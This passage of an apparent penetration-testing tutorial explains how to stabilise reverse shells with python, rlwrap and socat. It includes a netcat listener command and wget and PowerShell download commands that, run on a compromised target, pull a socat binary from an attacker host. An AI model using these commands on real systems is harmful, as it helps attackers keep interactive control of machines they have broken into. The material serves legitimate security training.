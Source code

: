 The full technique can be seen here:

![](https://i.imgur.com/bQnFz1T.png)

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

##### Technique 2: rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell ; however, s ome manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with 
```bash
sudo apt install rlwrap
```

To use rlwrap, we invoke a slightly different listener:
```bash
rlwrap nc -lvnp <port>
```

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use ```stty raw -echo; fg``` to stabilise and re-enter the shell.

##### Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (```sudo python3 -m http.server 80```), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (```wget <LOCAL-IP>/socat -O /tmp/socat```).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (```Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe```). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run ```stty -a```. This will give you a large stream of output. Note down the values for "rows" and columns:

![](https://i.imgur.com/7aOKtlO.png)
